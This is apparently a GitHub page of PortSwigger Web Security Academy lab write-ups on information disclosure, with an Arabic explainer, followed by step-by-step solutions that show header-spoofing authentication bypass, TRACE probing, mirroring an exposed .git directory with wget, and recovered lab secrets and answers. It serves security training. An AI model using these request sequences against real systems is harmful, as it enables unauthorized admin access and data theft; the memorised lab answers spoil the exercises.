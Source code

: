 # Information disclosure

* <details>


    
    # 🛡️ Information Disclosure (الإفصاح عن المعلومات)
    
    ## 🎯 ما هو Information Disclosure؟
    
    **Information Disclosure** أو "الإفصاح عن المعلومات" هو نوع من الثغرات الأمنية، يحدث عندما يقوم تطبيق أو نظام بكشف معلومات **حساسة** أو **غير مخصصة للمستخدم**. هذه المعلومات قد تكون مفيدة جدًا للمهاجم لتنفيذ هجوم متقدم، مثل:
    
    - كلمات مرور أو رموز API
    - أسماء مستخدمين
    - مسارات ملفات داخلية (`/etc/passwd`, `C:\Users\Admin\Desktop`)
    - إعدادات الخادم أو الكود البرمجي
    - إصدارات النظام أو البرامج
    - رسائل خطأ تفصيلية
    - قواعد بيانات أو معلومات عن الجداول
    - مفاتيح تشفير
    
    ---
    
    ## 🧠 أمثلة عملية
    
    ### 1. رسائل الخطأ المفصلة (Verbose Errors)
    
    ```php
    Warning: mysqli_connect(): (HY000/1045): Access denied for user 'root'@'localhost' (using password: YES)
    ```
    
    ⬅️ هذا المثال يُظهر اسم المستخدم في قاعدة البيانات.
    
    ### 2. عرض ملفات غير مخصصة (Directory Listing)
    
    زيارة الرابط:
    ```
    https://example.com/uploads/
    ```
    
    ⬅️ هذا يسمح برؤية ملفات غير مصرح بها.
    
    ### 3. ملف robots.txt فيه أسرار
    
    ```txt
    User-agent: *
    Disallow: /admin
    Disallow: /backup.zip
    ```
    
    ⬅️ قد يكشف هذا الملف عن ملفات مهمة مثل نسخة احتياطية.
    
    ### 4. الاستجابة تحتوي على بيانات حساسة
    
    ```json
    {
      "username": "admin",
      "password": "supersecret123"
    }
    ```
    
    ⬅️ تسريب مباشر لكلمات المرور.
    
    ---
    
    ## 🛡️ كيف تمنع Information Disclosure؟
    
    - ✅ عدم عرض رسائل خطأ مفصلة في بيئة الإنتاج
    - ✅ استخدام ملفات `.gitignore` و `.htaccess` بشكل صحيح
    - ✅ التأكد من صلاحيات الوصول للملفات
    - ✅ إخفاء رؤوس HTTP التي تكشف إصدار الخادم
    - ✅ فحص الكود لتسريبات مثل مفاتيح API أو كلمات مرور
    
    ---
    
    ## 🧪 أدوات للمساعدة
    
    - **Burp Suite** (لتحليل الردود والكشف عن معلومات حساسة)
    - **Dirb / Dirbuster** (للكشف عن ملفات أو مسارات غير محمية)
    - **Wappalyzer** (لكشف التقنيات المُستخدمة في الموقع)
    - **Nikto** (لكشف إعدادات خاطئة قد تؤدي للتسريب)
    

    
  </details>




---




<details>
    <summary>Lab: Information disclosure in error messages</summary>

> ### This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the ``version number`` of this framework. 

---

1. select product and intercept the request

```http
GET /product?productId=14 HTTP/2
Host: 0af4004a035cd3fa80028afc007b00bc.web-security-academy.net
Cookie: session=UFkGMCREvMWWvtzcAYCtB1X6EmX33YLO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af4004a035cd3fa80028afc007b00bc.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

**``put the product id = '``**

```url
GET /product?productId=' HTTP/2
```

<img width="1520" height="675" alt="image" src="https://github.com/user-attachments/assets/9448b106-3b9e-48d3-9634-9bd0b8ebde0f" />

```ip
2.3.31
```
    
</details>





<details>
    <summary>Lab: Information disclosure on debug page</summary>

> ###  This lab contains a debug page that discloses sensitive information about the application. To solve the lab, obtain and submit the ``SECRET_KEY`` environment variable. 

---


1. ``view page sourse``

<img width="796" height="377" alt="image" src="https://github.com/user-attachments/assets/bed8ee5b-e879-46eb-bb6d-77956d29e5f3" />

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

2. now navigate:

```url
https://0a7c00d104bf2dae82109c31002d006a.web-security-academy.net/cgi-bin/phpinfo.php
```

<img width="1002" height="615" alt="image" src="https://github.com/user-attachments/assets/02ef5a51-f28a-40d0-8733-9f932ef055cb" />

```css
9l5zi0qwghgf3dycpuf6e0nb2lmdkwuk
```

    
</details>







<details>
    <summary>Lab: Source code disclosure via backup files</summary>

> ### This lab leaks its source code via backup files in a ``hidden directory``. To solve the lab, identify and submit the ``database password``, which is hard-coded in the leaked source code.  


---

1. look at :

```url
/robots.txt
```

``found``

```
User-agent: *
Disallow: /backup
```

2. now navigate 

```
https://0a2a002804aa8b598242fc9200a000c8.web-security-academy.net/backup
```

<img width="381" height="192" alt="image" src="https://github.com/user-attachments/assets/e874764e-11cd-42f0-a323-34c5a84d7dfa" />

<img width="806" height="793" alt="image" src="https://github.com/user-attachments/assets/6a2c76ea-ef53-4bfe-a547-c2bc49692332" />

```
cexk7l0isf9a1etns6h322ymnvrs5fab
```

    
</details>





<details>
    <summary>Lab: Authentication bypass via information disclosure</summary>

> ###  This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

> To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete the user ``carlos``.You can log in to your own account using the following credentials: ``wiener:peter`` 


---


1. login as ```wiener : peter```

2. try to open ``/admin``

<img width="1365" height="333" alt="image" src="https://github.com/user-attachments/assets/d4b16a49-7bf4-4c0e-bd00-e6e9d2aab10f" />

```http
Admin interface only available to local users 
```

first i try all these headers but no one work:

```http
X-Forwarded-For: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Forwarded: for=127.0.0.1
True-Client-IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
```


> #### To know the header i changed the method form ``GET`` to ``TRACE``

```
TRACE /admin HTTP/2
Host: 0af8003203f548258027c78a00d10051.web-security-academy.net
Cookie: session=6YuJO3CKC91bhCbm4nNF21yULajIrNS0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

I FOUND IT 

```http
X-Custom-IP-Authorization: 156.198.65.215
```


<img width="1405" height="445" alt="image" src="https://github.com/user-attachments/assets/e176982e-3258-4b59-a4b6-4cfed773b0c7" />

3. set it

```http
GET /admin HTTP/2
Host: 0af8003203f548258027c78a00d10051.web-security-academy.net
Cookie: session=6YuJO3CKC91bhCbm4nNF21yULajIrNS0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

and Done response is ``200 ok``

<img width="1526" height="624" alt="image" src="https://github.com/user-attachments/assets/266c7bab-b7b9-4d9c-8820-4d737bf188e3" />


<img width="742" height="484" alt="image" src="https://github.com/user-attachments/assets/473e7274-41d2-4af1-a501-d957a920d790" />

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0af8003203f548258027c78a00d10051.web-security-academy.net
Cookie: session=6YuJO3CKC91bhCbm4nNF21yULajIrNS0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af8003203f548258027c78a00d10051.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1

```

* <details>
    <summary>To not put the header each time you sent request</summary>


    1. Go to ``Proxy >`` Match and replace.
    2. Under HTTP ``match and replace`` rules, click ``Add``. The Add ``match/replace`` rule dialog opens.
    3. Leave the Match field empty.
    4. Under ``Type``, make sure that Request header is selected.
    
    5. In the Replace field, enter the following:
    ```
    X-Custom-IP-Authorization: 127.0.0.1
    ```
    
    6. Click ``Test``.
    7. Under ``Auto-modified`` request, notice that Burp has added the ``X-Custom-IP-Authorization`` header to the modified request.
    8. Click ``OK``. Burp Proxy now adds the ``X-Custom-IP-Authorization`` header to every request you send.
        
  </details>

    
</details>





<details>
    <summary>Lab: Information disclosure in version control history</summary>

> ### This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the ``administrator`` user then log in and delete the user ``carlos``. 


---


1. first i try to login using ``wiener : peter`` (not step)
2. then try to open ``/admin``

<img width="1066" height="341" alt="image" src="https://github.com/user-attachments/assets/90c0138c-ff9d-4e0f-b738-1ce9c4a1e702" />

3. Open the lab and browse to ``/.git`` to reveal the lab's Git version control data. 

<img width="851" height="562" alt="image" src="https://github.com/user-attachments/assets/904c836f-739c-4b34-a313-573da238d3a7" />

opne ``COMMIT_EDITMSG``

found 

```http
Remove admin password from config
```

download copy on your device:

```
wget -r https://0a9c0058036a57408046b7cf002a00ef.web-security-academy.net/.git/
```

<img width="1067" height="484" alt="image" src="https://github.com/user-attachments/assets/94119835-1e0b-4132-9ba8-11d042342d6e" />

```
sudo apt install git-cola -y
```

notice that there is ``admin_config`` & ``admin_panal.php``

<img width="1585" height="841" alt="image" src="https://github.com/user-attachments/assets/8fdd4aa4-340d-4d9e-90ad-6c1e4e42f360" />

<img width="586" height="640" alt="image" src="https://github.com/user-attachments/assets/5b597033-6b57-40bd-951b-79bd6444be3d" />

so password is cleared we want to get it back so we will 

> from ``commit`` click ``undo last commit``

<img width="876" height="415" alt="image" src="https://github.com/user-attachments/assets/2fa3c89c-5282-4467-a458-b0bab712f6fe" />

and here is the password

<img width="739" height="590" alt="image" src="https://github.com/user-attachments/assets/f19ec764-e25c-4fdc-b403-7442fa9c3186" />

```
administrator : hhph747uu39r1mjil6oq
```

<img width="1300" height="609" alt="image" src="https://github.com/user-attachments/assets/4674e632-7c45-47c7-a8f7-669d179c6077" />



    
</details>

















































